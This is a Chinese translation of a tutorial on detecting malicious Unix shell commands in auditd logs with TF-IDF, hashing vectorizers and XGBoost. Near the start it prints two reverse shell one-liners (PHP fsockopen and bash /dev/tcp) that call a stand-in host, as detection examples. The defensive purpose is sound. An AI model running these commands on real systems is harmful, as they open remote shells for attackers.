









# Shell 语言处理:使用 TF-IDF 和哈希编码对 Linux 审计日志进行入侵检测

> 原文：<https://towardsdatascience.com/shell-language-processing-machine-learning-for-security-intrusion-detection-with-linux-auditd-73d7196995c7>

## 本文是一篇*操作指南*，为希望应用机器学习技术满足网络安全需求的安全专业人士和数据科学家提供代码示例。



图一。Kibana 中已审核事件的屏幕。图片由作者拍摄。

# 介绍

机器学习(ML)算法在行业、教程和课程中的适用性严重偏向于构建 ML 模型本身。然而，从我们的角度来看，数据**预处理**步骤(即，将文本系统日志转换为从数据中获取有价值见解的数字数组)对于试图将数据武器化的安全工程师和分析师来说，具有最大的心理和认知差距。

有许多日志收集中心缺乏定性分析，无法从获取的数据中推断出必要的可见性。收集数 TB 的日志通常只是为了执行基本的分析(例如，基于签名的基本规则)，并且被认为是以一种*临时*反应式的方式使用—如果需要调查的话。一个没有足够分析注意力的有价值数据的例子——audited**的`execve` syscall 包含上面图 1 中显示的 Unix shell 命令行。**

通过在这些数据的基础上定义人工启发，可以获得许多有价值的推论。当`pty` 和`spawn`被用在与`/dev/shm`相同的*执行*调用或位置的参数中时，你一定要对出现的情况做出反应。然而，在许多情况下，定义一个在特定技术中易于变化的健壮的人工启发式方法是没有希望的。

考虑这两个反向 shell 命令:

```
php -r '$sock=fsockopen("example.com",4242);system("/bin/sh -i <&3 >&3 2>&3");'bash -i >& /dev/tcp/example.com/4242 0>&1
```

虽然我们在这两个定义中看到了一个共同的模式，但是检测其中一个的良好的基于规则的逻辑需要十几个带有正则表达式匹配的*和/或*语句。即使这样，威胁参与者也可以通过修改和引入中间变量名或重新分配文件描述符来逃避大多数手动方法。

在这篇文章中，我们提出了一个思维平面，其中使用**机器学习(ML)来定义您的数据基线，作为基于规则的方法的扩展**。ML 允许决策边界的构建比手动试探法和直接从数据推断更加通用。我们将:

*   使用`auditd` execve 日志来检测 [T1059.004](https://attack.mitre.org/techniques/T1059/004/) (命令和脚本解释器:Unix Shell)——这是滥用受损 Unix 主机的最常见方式；
*   讨论 Unix shell 命令的标记化和编码技术(TF-IDF &“散列技巧”)；
*   使用`scikit-learn`和`nltk`库将命令编码为向量；
*   利用`scikit-learn`和`xgboost`库创建机器学习模型并训练监督分类器；
*   讨论允许评估 ML 模型性能的度量标准；

在本教程中，我们将**而不是**:

*   讨论遥测基础设施设置，因此我们不包括`auditd`配置。如果你想要一个好的起点，使用 [Florian Roth](https://medium.com/u/2fdc032a69b3?source=post_page-----73d7196995c7--------------------------------) 慷慨提供的[这个配置](https://github.com/Neo23x0/auditd)。
*   介绍如何将这些数据提取到您的分析主机中——我们不介绍特定的工具 API 示例。我们遇到过存储在 Elastic、Splunk 和 Spark 集群中的此类数据，根据我们的观察，数据查询对从业者来说并不构成挑战。

如果您愿意考虑数据科学应用于网络安全需求的其他方面，请考虑以下相关主题的文章:

*   [企业中基于统计模式的异常检测](/data-centric-security-threat-hunting-based-on-zipfs-law-50ad919fc135)；
*   [命令&控制从 Windows EventLog 中检测熊猫](https://medium.com/riga-data-science-club/transform-microsoft-xml-events-into-pandas-dataframe-11142501e7f9)；
*   [用递归神经网络监督分析 Sysmon 事件](https://ditrizna.medium.com/security-detections-on-windows-events-with-recurrent-neural-networks-346d0b2738fe)。

# 形成数据集

*auditd* (以及 auditbeat 等替代代理)在系统上提供各种类型的活动，例如，网络访问、文件系统操作或进程创建。后者是通过捕获`execve` syscall 的利用率获得的，根据配置的不同，这些事件可能看起来不同，但最终提供相同的信息:

例 1。审核的 EXECVE 系统调用日志。

例 2。auditbeat 报告的 Auditd EXECVE 系统调用日志。

在这个分析的范围内，我们建议把重点放在派生进程的命令行上。我们建议采用 *process.args* 中表示的数组，并将其连接成一个字符串，因为:

*   *process.title* 值通常限制在 128 个字符以内，或者忽略不计；
*   *process.args* 经常提供不正确的“标记化”命令。

我们对内部数据集的经验证明，使用本文描述的技术， *process.args* 提供的信息是非常高效的。然而，为了便于写作，我们收集了一个专用的开放数据集，由两部分组成:

*   [合法命令](https://github.com/TellinaTool/nl2bash/blob/master/data/bash/all.cm)形成于 NL2Bash 数据集[ [林等 2018](https://aclanthology.org/L18-1491.pdf) ]其中包含来自 quora 等资源的废弃 Unix shell 命令；
*   真实的威胁参与者和渗透测试人员利用远离陆地的恶意活动来列举和利用 Unix 系统——我们专门为此研究从各种威胁情报和渗透测试资源中手动收集的数据集。

# 命令预处理

机器学习模型期望编码数据(数字向量)作为其功能的输入。经典自然语言处理(NLP)管道的高级示例可能如下所示:



图二。经典 NLP 管道示意图。作者创造的形象。

可以说，shell 命令行不需要像许多 NLP 应用程序那样清除标点符号，因为 shell 语法在标点符号中嵌入了很大一部分认知知识。但是，您可能仍需要根据收到的遥测信息执行不同类型的清理，例如，*域名、IP 地址和用户名的规范化*。

将文本数据作为特征向量处理的关键步骤是**标记化**和**编码**，我们将在下面详细讨论。值得一提的是，多年来，传统的 NLP 应用程序开发了许多与 shell 遥测技术不太相关的其他技术，我们在本练习中省略了这些技术。

## 标记化

数据的预处理和编码高度依赖于字段和特定的数据源。记号化代表了*将任何连续序列分成称为记号的基本部分*的思想。应用于 shell 语法的标记化比我们在自然语言中看到的要复杂得多，并且带来了几个挑战:

*   空格并不总是元素分隔符；
*   点和逗号有专门的含义；
*   破折号、竖线、分号等标点符号后面的特定值。



图 3。shell 命令敏感部分的概要。作者创造的形象。

我们可以使用作为我们的 Shell 语言处理(SLP)工具包的一部分实现的`ShellTokenizer`类进行有效的标记化。我们已经证明，对 shell 命令行使用专用的标记器可以显著提高机器学习管道的性能。更多详情，请参考我们的论文[【Trizna 2021】](https://arxiv.org/abs/2107.02438)。

然而，SLP 记号赋予器比许多优化的 NLP 记号赋予器更费时。因此，我们将使用来自`nltk`图书馆的`WordPunctTokenizer`对本文进行探索性分析。它保留了标点符号，并在应用于 Unix shell 命令时提供了一个不错的资源质量权衡。

## 编码

一旦我们收到一个符号化的命令序列，我们就可以用数字的形式来表示这些序列。有多种方便的方法可以将文本标记序列表示为一个数字数组。我们将考虑:

*   一个热点
*   词汇袋
*   “哈希技巧”矢量器
*   TF-IDF(术语频率-逆文档频率)

我建议使用以下数据集建立编码方案背后的直觉:

```
1\. I love dogs.
2\. I hate dogs and knitting.
3\. Knitting is my hobby and my passion.
```

对于这样一个数据集， [**One-Hot**](https://scikit-learn.org/stable/modules/generated/sklearn.preprocessing.OneHotEncoder.html) 编码看起来是这样的——只是表示特定输入中出现了什么单词:


图 4。单热点向量的简化视图。作者创造的形象。

**单词包(BoW)(在的**术语中又称为计数矢量器)编码看起来像这样——它对输入中的单独标记进行计数:



图 5。单词袋(又名计数矢量器)向量的简化视图。作者创造的形象。

[**哈希矢量器**](https://scikit-learn.org/stable/modules/generated/sklearn.feature_extraction.text.HashingVectorizer.html) 是一个“增强的”单词包，它执行令牌到哈希的映射。您失去了恢复令牌值的能力(因为哈希是一个单向函数)，但这大大减少了内存需求，并允许流学习。[【k . Ganesan】](https://kavita-ganesan.com/hashingvectorizer-vs-countvectorizer/#.YyCd9HZBy3B)对哈希矢量器背后的功能做了很好的解释。

[**TF-IDF**](https://scikit-learn.org/stable/modules/generated/sklearn.feature_extraction.text.TfidfVectorizer.html) 是 BoW 的更高级版本，其中考虑了*其他*文档中的文字外观:



在示例样本数据集中，这将导致:



图 6。TF-IDF 向量的简化视图。作者创造的形象。

与 One-Hot 和 BoW 相反，TF-IDF 的基于频率的编码允许我们强调代表当前文档的标记，而不强调常见的标记。

令人惊讶的是，*哈希矢量器*在一些安全应用上的表现明显优于 TF-IDF。稍微脱离上下文，下面是分类任务的 ROC 曲线与我们上面的技术数据集(除了 BoW)的比较:



图 7。不同编码方案的 ROC 曲线。作者创造的形象。

我们看到*哈希矢量器*对 TF-IDF 和一键编码的结果之间存在差距，这意味着这种预处理方法产生了更好的分类结果。同样的“哈希技巧”优势也在其他安全问题中被注意到，例如，恶意软件分类[【Ceschin 和 Bota CIN 2021】](https://secret.inf.ufpr.br/2021/09/29/adversarial-machine-learning-malware-detection-and-the-2021s-mlsec-competition/)。因此，在处理您的数据时，我们建议同时使用 TF-IDF 和 HashingVectorizer 进行实验，并选择在验证集上产生最佳结果的一个。

基于上面的结果，在本文的范围内，我们将使用 *HashingVectorizer* 和一个定制的标记器。在 ML 社区中，假设使用 **X** 作为输入数据的符号。因此，可以使用 *sklearn* 编码器和 *nltk* 标记器从列表`raw_commands`中获取“哈希技巧”和 TF-IDF 矩阵，如下所示(使用 IP 地址规范化):

此时，我们得到了一个编码数组——恭喜！

```
>>> print(X["HashingVectorizer"].shape)
>>> X["HashingVectorizer"][0:3].toarray()(12730, 262144)
array([[0., 0., 0., ..., 0., 0., 0.],
        [0., 0., 0., ..., 0., 0., 0.],
        [0., 0., 0., ..., 0., 0., 0.]])
```

此外，当使用监督算法时，我们需要指定由 **Y** 表示的数据标签来训练模型。在这种情况下，我们将标签 0 分配给良性条目，标签 1 代表恶意条目:

```
raw_commands **=** benign **+** malicious
Y **=** np**.**array([0] ***** len(benign) **+** [1] ***** len(malicious), dtype**=**int)
```

# 机器学习分类器

## 模型架构

此时，编码数据已准备好由许多机器学习模型进行处理。所以，让我们建立一个深度学习模型吧！？

如果你想立即将数据输入神经网络，请与[迈克](https://c.tenor.com/gqsU87kq4PoAAAAM/no-no-please.gif)交谈。不要去神经网络，除非你知道为什么你需要深度学习。深度学习带来的问题通常会阻碍它们在生产环境中的部署:

*   需要一个大样本来学习一个好的分布(给定被监督的内容——你需要花很多钱来标记数据)
*   需要明显更多的人力和计算资源来选择神经网络架构的适当配置。

因此，对于作为应用程序所有者的你来说，深度学习显然更加昂贵，并且如果上面的要点没有得到足够的重视，往往会产生更差的结果。

对于分类，我们建议首选是**梯度提升决策树(GBDT)** 算法，具体是`XGBoost`实现。

事实证明，XGBoost 是分类“表格数据”——固定长度的向量(我们的例子)——的黄金标准。此外，它还提供了最佳的精度和计算资源组合:



图 8。基于表格数据准确性和训练时间的 ML 模型荟萃分析[【博里索夫等 2022】](https://arxiv.org/pdf/2110.01889.pdf)。

很难在不专门写一篇文章的情况下描述 boosted ensemble，但是分两步解释可能如下所示——( 1)每个决策树是一个 if/else 的训练序列；(2)我们做了一些聪明的操作来从许多树中得到一个单一的意见，其中每一个结果树都是基于先前树的错误来训练的。如果你想对 GBDT 有更深入的解释: [1。维基。](https://en.wikipedia.org/wiki/Gradient_boosting)2[2。直觉&观想](https://arogozhnikov.github.io/2016/06/24/gradient_boosting_explained.html)。

模型的训练使用`fit()`方法完成，预测可以使用`predict()`(给出标签—恶意或良性)或`predict_proba()`(返回概率):

上面的脚本块的输出给出了下面的数组:`array([[0.1696732, **0.8303268**]], dtype=float32)`

这里我们看到调用后门下载和后台执行的 shellshock 被一个概率为 **0.8303268** 的模型认为是恶意的。如果我们将决策阈值定义为经典的 0.5，这意味着更高的概率导致恶意得分，那么我们的数据集与*哈希矢量器*的混淆矩阵如下所示:



图 9。使用哈希矢量器预处理方案的分类器训练集上的混淆矩阵。作者创造的形象。

# 检测工程框架

此时，我们的模型已准备好进行部署，作为检测可疑活动的基础:

1.  用 ML 模型将 *auditd* 日志流提取到分析主机；
2.  从一个 *auditd* 事件中解析*process . args*；
3.  标记器&用选定的预处理方法对 *args* 进行编码，并将其提供给模型的`predict_proba()`方法；
4.  如果恶意性超过概率阈值，则向 SIEM/吉拉/SOAR/Slack 报告。

附加说明—在本文中，我们试图在恶意命令和良性命令之间建立一个决策界限。然而，这通常会适得其反，我们建议形成一个数据集，因此 ML 模型侧重于狭窄的 TTP，例如，仅(1)反向外壳检测或(2)被入侵机器的枚举。

## 在线学习—减少误报

一旦模型被部署并加入到您的检测中，您将会看到误报。因此，我们建议调整恶意阈值，以匹配所需的警报级别(更高的阈值，更少的警报，但更多的假阴性)。

然而，这个模型可以而且应该被**重新训练**来避免这些错误。*一种方法*是用具有正确标签的新示例更新初始训练数据集，并从头开始重新训练模型。*第二种*方式是利用[在线学习](https://en.m.wikipedia.org/wiki/Online_machine_learning)技术，从数据流中更新模型。一些模型实现了`partial_fit()`，并允许在新数据进来时更新模型行为。关于该主题，请参考 [sklearn 文档](https://scikit-learn.org/stable/computing/scaling_strategies.html)。对于这些需求，我们建议使用在`sklearn`—[MLP 分类器](https://scikit-learn.org/stable/modules/generated/sklearn.neural_network.MLPClassifier.html)中实现的基本神经网络来代替`XGBClassifier`(MLP 或**M**ulti-**L**layered**P**er ception 是机器学习的一个老式名称)。

例如，考虑到假阳性的发生，在这些情况下，模型可能仅在特定命令上被重新训练:

# 结论

虽然高级人工智能已经极大地改变了自然语言处理(NLP)或计算机视觉(CV)应用程序，但我们正在慢慢采用这些技术来满足网络安全需求。虽然该行业在某些方向取得了显著的成果，如从可移植可执行(PE)文件中进行恶意软件分类，或者出现了一些好的文献(例如，从[威尔·施罗德](https://medium.com/u/74ad66811b78?source=post_page-----73d7196995c7--------------------------------)T2 开始的一系列出版物)，但是使用 ML 技术进行以安全为重点的行为分析的资料仍然很少。

正如本文所示，无需实施昂贵的深度学习解决方案和在 R&D 上大量投资，只需使用本主题中讨论的传统技术，就可以实现显著的改进。通过对特定信息安全问题的聪明的、选择性的应用，即使简单的 ML 技术也能在安全工程师和分析师的日常操作中产生显著的改进。

我们希望本出版物中分享的信息将激励安全爱好者尝试 ML 技术来解决他们的任务，从而最大限度地缩小数据科学和信息安全之间的差距。Infosec 还需要克服一个**适用性缺口**，用数据科学界在过去十年中揭示的宏伟技术来增强该领域的能力。本文范围内所做的所有实验，都可以在这个[笔记本](https://github.com/dtrizna/slp/blob/main/examples/tutorial_classification_and_anomaly_detection.ipynb)里找到。